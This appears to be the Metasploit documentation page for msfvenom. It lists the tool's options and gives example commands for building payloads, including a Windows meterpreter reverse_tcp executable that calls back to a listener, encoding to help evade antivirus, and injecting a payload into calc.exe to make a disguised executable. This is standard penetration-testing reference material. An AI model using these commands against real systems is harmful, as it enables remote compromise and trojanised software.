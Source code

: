 Msfvenom is the combination of payload generation and encoding. It's a replacement for msfpayload and msfencode. It supports the following options:

```
Options:
    -p, --payload    <payload>       Payload to use. Specify a '-' or stdin to use custom payloads
    -l, --list       [module_type]   List a module type. Options are: payloads, encoders, nops, all
    -n, --nopsled    <length>        Prepend a nopsled of [length] size on to the payload
    -f, --format     <format>        Output format (use --help-formats for a list)
    -e, --encoder    [encoder]       The encoder to use
    -a, --arch       <architecture>  The architecture to use
        --platform   <platform>      The platform of the payload
    -s, --space      <length>        The maximum size of the resulting payload
    -b, --bad-chars  <list>          The list of characters to avoid example: '\x00\xff'
    -i, --iterations <count>         The number of times to encode the payload
    -c, --add-code   <path>          Specify an additional win32 shellcode file to include
    -x, --template   <path>          Specify a custom executable file to use as a template
    -k, --keep                       Preserve the template behavior and inject the payload as a new thread
        --payload-options            List the payload's standard options
    -o, --out   <path>               Save the payload
    -v, --var-name <name>            Specify a custom variable name to use for certain output formats
    -h, --help                       Show this message
        --help-formats               List available formats
```

**How to generate a payload**

To generate a payload, there are two flags that you must supply (-p and -f):

* **The -p flag: Specifies what payload to generate**

To see what payloads are available from Framework, you can do:

```
./msfvenom -l payloads
```

The -p flag also supports "-" as a way to accept a custom payload:

```
cat payload_file.bin | ./msfvenom -p - -a x86 --platform win -e x86/shikata_ga_nai -f raw
```

* **The -f flag: Specifies the format of the payload**

Syntax example:

```
./msfvenom -p windows/meterpreter/bind_tcp -f exe
```

To see what formats are supported, you can do the following to find out:

```
./msfvenom --help-formats
```

Typically, this is probably how you will use msfvenom:

```
$ ./msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.64 lport=4444 -f exe -o /tmp/my_payload.exe
```


**How to encode a payload**

By default, the encoding feature will automatically kick in when you use the -b flag (the badchar flag). In other cases, you must use the -e flag like the following:

```
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -f raw
```

To find out what encoders you can use, you can use the -l flag:

```
./msfvenom -l encoders
```

You can also encode the payload multiple times using the -i flag. Sometimes more iterations may help avoiding antivirus but understand encoding isn't really meant to be used a real AV evasion solution:

```
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3 
```

**How to avoid bad characters**

The -b flag is meant to be used to avoid certain characters in the payload. When this option is used, msfvenom will automatically find a suitable encoder to encode the payload:

```
./msfvenom -p windows/meterpreter/bind_tcp -b '\x00' -f raw
```

**How to supply a custom template**

By default, msfvenom uses templates from the msf/data/templates directory. If you'd like to choose your own, you can use the -x flag like the following:

```
./msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -f exe > new.exe 
```

Please note: If you'd like to create a x64 payload with a custom x64 custom template for Winodws, then instead of the exe format, you should use exe-only:

```
./msfvenom -p windows/x64/meterpreter/bind_tcp -x /tmp/templates/64_calc.exe -f exe-only > /tmp/fake_64_calc.exe
```

The -x flag is often paired with the -k flag, which allows you to run your payload as a new thread from the template. However, this currently is only reliable for older Windows machines such as x86 Windows XP.
